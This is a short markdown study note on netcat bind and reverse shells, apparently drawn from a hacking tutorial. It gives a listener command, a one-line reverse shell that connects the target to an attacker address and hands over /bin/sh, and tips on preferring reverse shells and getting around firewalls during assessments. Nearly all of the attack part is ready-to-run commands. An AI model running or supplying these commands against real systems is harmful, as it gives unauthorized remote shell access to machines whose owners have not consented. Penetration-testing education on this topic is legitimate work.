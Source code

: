 


#  Exploitation Basics

Source: https://www.hackingtitorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

## **Netcat Reverse Shells** - a victim connect to the attacker

![Alt](../../Images/netcatreverseshell.png)


- All we do is to listen via

```
nc -lvp 4444
```

- The target connect to us and establish a shell

```
nc 192.168.1.1 4444 -e /bin/sh
```

Example:

![Alt](../../Images/ncrevershelldo.png)

## **Netcat Bind Shells** - an attacker connects to the victim

![Alt](../../Images/doncreverse.png)


![Alt](../../Images/donetcatbindshell.png)


============================================================

NOTE: Use reverse shell 95%
Bind shell usually in external assessment
Bypass firewall just listen instead in port forward in FW